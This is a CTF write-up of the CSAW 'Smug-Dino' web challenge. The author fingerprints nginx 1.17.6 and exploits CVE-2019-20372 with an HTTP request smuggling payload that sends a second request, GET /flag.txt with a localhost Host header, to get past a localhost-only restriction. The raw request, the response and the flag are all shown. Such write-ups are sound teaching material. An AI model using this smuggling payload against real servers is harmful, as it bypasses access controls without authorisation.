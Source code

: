 # Smug-Dino

[toc]

## Description
Don't you know it's wrong to smuggle dinosaurs... and other things?

Author: rollingcoconut

## Solution
This is a WEB category challenge with 50 Points.
When we go to http://web.csaw.io:3009/, we will saw the home page with three Buttons
1. Home
2. Hint
3. Flag?
![home_page](../../../src/img/smug_dino_homepage.png)


After clicked `Hint` button, we are directed to `http://web.csaw.io:3009/succeed_hint`, the page is asking us to enter the `Server name` & `Server Version` before we can get the hint.
So, let's find them.

Click `F12` enter to the Inspector mode and check for the Network section.
We can get the server's name and version from the Response Header :
```
Server : nginx/1.17.6
```
![response_head](../../../src/img/server_name_version.png)
We just enter the server's name and version, then we got the Hints

```
HINT: #1

We believe the item you seek is only accessible to localhost clients on the server; 
All other requests to /flag will be processed as a 401. 


It seems the server is issuing 302 redirections to handle 401 erors...
Is it possible to use the redirection somehow to get the localhost flag?



HINT: #2

CVE 2019-....

```

After I do some research on the Internet, I found that this is a vulnerability of CVE-2019-20372 (nginx HTTP request smuggling)


The ways to exploit this vulnerability is to send two request in one time to get the flag.txt that we want.
I am using `Burpsuit` here to exploit :
```
GET / HTTP/1.1
Host: web.csaw.io:3009
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Content-Length: 4



GET /flag.txt HTTP/1.1
Host: localhost:3009

```
There are three things important in this request raws
First, we need to keep the Connection alive
```
Connection: keep-alive
```
Adding a special request header Connection: Keep-Alive to the HTTP request, telling the server not to close the TCP link after receiving this HTTP request, and to reuse this request for subsequent HTTP requests to the same target server. A TCP link requires only one TCP handshake process, which can reduce server overhead, save resources, and speed up access. Of course, this feature is enabled by default in HTTP 1.1.

Second, we are able to send two requests in one time because for the front-end server it looks like only one request. (Vulnerability)

Third, we need to make sure the host of the second request : `GET /flag.txt HTTP/1.1` to be `localhost:3009` because the web page has been redirected to local.

After that, we can get the flag in the Response :
```
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Sat, 16 Sep 2023 13:53:14 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1952
Connection: keep-alive
X-Powered-By: Express
ETag: W/"7a0-qKx6Ou+8z9np0jE0RYCSKOhMytk"
Set-Cookie: connect.sid=s%3Aram2WsuxHt7YeDgbc2VzFQaWF2pBVEue.mEokkn7jr%2Fj2ayIH4FO%2FNdP%2FxGQH6NyndSfz2xfjjkQ; Path=/; HttpOnly

<!DOCTYPE html>
<html lang="en">

<head>
    <title>All about dinos :) </title>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.1.3/css/bootstrap.min.css" integrity="sha384-MCw98/SFnGE8fJT3GXwEOngsV7Zt27NXFoaoApmYm81iuXoPkFOJwJ8ERdknLPMO" crossorigin="anonymous">
    <link href="css/styles.css" rel="stylesheet">
    <link href="https://fonts.googleapis.com/css?family=Merriweather:400,700" rel="stylesheet" type="text/css">
</head>

<body>
    <nav class="navbar navbar-dark bg-dark navbar-static-top navbar-expand-md">
        <div class="container">
            <button type="button" class="navbar-toggler collapsed" data-toggle="collapse" data-target="#bs-example-navbar-collapse-1" aria-expanded="false"> <span class="sr-only">Toggle navigation</span>
            </button> <a class="navbar-brand" href="#">Smug Dino</a>
            <div class="collapse navbar-collapse" id="bs-example-navbar-collapse-1">
                <ul class="nav navbar-nav mr-auto">
                    <li class="active nav-item"><a href="/" class="nav-link">Home</a>
                    </li>
                    <li class="nav-item"><a href="/hint" class="nav-link">Hint</a>
                    </li>
                    <li class="nav-item"><a href="/flag" class="nav-link">Flag?</a>
                    </li>
                </ul>
            </div>
        </div>
    </nav>
    <div class="jumbotron">
        <div class="container">
            <h1>What's your favorite dinosuar?</h1>
	    <h5>Ancient artifacts can teach us a lot -- just don't have them in your code!</h5>
	    <div style="max-height:450px; max-width:450px; overflow: hidden">
	        <img src="https://upload.wikimedia.org/wikipedia/commons/4/46/Lambeosaurus_magnicristatus_DB.jpg">
           </div>
            <br>
        </div>
    </div>

</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Sat, 16 Sep 2023 13:53:14 GMT
Content-Type: text/plain
Content-Length: 29
Connection: keep-alive

csawctf{d0nt_smuggl3_Fla6s_!}
```


## Flag
```
csawctf{d0nt_smuggl3_Fla6s_!}
```
